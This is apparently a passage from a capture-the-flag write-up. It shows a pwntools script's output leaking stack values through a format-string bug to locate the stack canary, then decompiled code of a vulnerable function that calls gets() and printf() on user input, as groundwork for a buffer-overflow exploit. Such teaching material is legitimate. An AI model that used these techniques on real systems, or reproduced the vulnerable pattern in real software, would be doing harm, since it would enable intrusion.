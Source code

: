 Note that all in particular this is doing is creating a new instance of the process and incrementing our formatted string argument from `%1(-100)$p`, sending it as an argument and then retrieving the output. We're also including the pointer index that was used in that iteration at the very end of each string that we receive back.

```
└─$ python3 canary_leak.py               
/-/ccso_intro_2025/serinus/canary_leak.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(payload)
b' /\\ /\\ \n((ovo))\n():::()\n  VVV\nDo you like my bird drawing?\nABCDABCD.(nil)\nWhat would you rate it from 1-10? Be nice please. :)\n' 1
b' /\\ /\\ \n((ovo))\n():::()\n  VVV\nDo you like my bird drawing?\nABCDABCD.0x2\nWhat would you rate it from 1-10? Be nice please. :)\n' 2
b' /\\ /\\ \n((ovo))\n():::()\n  VVV\nDo you like my bird drawing?\nABCDABCD.(nil)\nWhat would you rate it from 1-10? Be nice please. :)\n' 3
......
b' /\\ /\\ \n((ovo))\n():::()\n  VVV\nDo you like my bird drawing?\nABCDABCD.0xffffffff\nWhat would you rate it from 1-10? Be nice please. :)\n' 22
b' /\\ /\\ \n((ovo))\n():::()\n  VVV\nDo you like my bird drawing?\nABCDABCD.0xafe2be00\nWhat would you rate it from 1-10? Be nice please. :)\n' 23
b' /\\ /\\ \n((ovo))\n():::()\n  VVV\nDo you like my bird drawing?\nABCDABCD.0xf7f91400\nWhat would you rate it from 1-10? Be nice please. :)\n' 24
```

We can see on index `23` that the address retrieved is now `0xafe2be00`, which would follow our requirements for a potential canary address. We can almost confidently say that the stack canary address is located on the pointer index `23` due to the inconsistency with the other addresses around it.

## Determining Padding Needed to the Return Address

Before we actual create our finalized exploit, we need to determine the padding that is required to get to the return address.

We don't actually need to fuzz for this - as the value is already displayed in the disassembly in GDB, and it would also be a bit more complicated to fuzz for since we'd have to configure our canary leak (which we're already going to do anyways).

Let's start by figuring out how big the buffer allocation is in our program. We can see this in Ghidra in the `vuln()` function.

```C
void vuln(void)

{
  int in_GS_OFFSET;
  char local_50 [64]; <---------
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  puts(" /\\ /\\ ");
  puts("((ovo))");
  puts("():::()");
  printf("  VVV");
  puts("\nDo you like my bird drawing?");
  gets(local_50);
  printf(local_50);
  puts("\nWhat would you rate it from 1-10? Be nice please. :)");
  gets(local_50);
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```
